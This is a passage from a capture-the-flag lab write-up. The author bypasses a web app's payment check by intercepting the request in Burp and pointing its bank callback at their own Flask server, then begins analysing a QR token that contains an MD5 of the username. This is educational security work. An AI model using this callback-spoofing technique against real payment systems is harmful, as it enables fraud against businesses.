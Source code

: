 ```
        "cardnumber": data["cardnumber"],
    }
    return jsonify(response)

if __name__ == "__main__":
    app.run(debug=True, host="0.0.0.0")

```

I could fake this with `nc` and raw data, but this app is so simple to write (and ChatGPT can do it as well).

I’ll run it, and turn on interception in Burp Proxy. I’ll submit the payment request, and change the bank to the IP / port of my server, `10.10.14.6:5000`. On sending that, there’s a request at my Flask app:

```

oxdf@hacky$ python fake_bank.py 
 * Serving Flask app 'fake_bank'
 * Debug mode: on
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:5000
 * Running on http://10.0.2.7:5000
Press CTRL+C to quit
 * Restarting with stat
 * Debugger is active!
 * Debugger PIN: 521-979-635
10.10.11.9 - - [02/Feb/2025 06:38:23] "POST /api/payments/ HTTP/1.1" 200 -

```

After refreshing the page, I’ve got a premium subscription:

![image-20250202064131012](/img/image-20250202064131012.png)

### Admin Access

#### QRCode Analysis

The QRcode I’m given decodes to three values joined by period:

```

oxdf@hacky$ zbarimg qrcode.png 
QR-Code:465e929fc1e0853025faad58fc8cb47d.0d341bcdc6746f1d452b3f4de32357b9.0xdf
scanned 1 barcode symbols from 1 images in 0.04 seconds

```

The last one is my username. The first one is the MD5 of my username:

```

oxdf@hacky$ echo -n "0xdf" | md5sum
465e929fc1e0853025faad58fc8cb47d  -

```
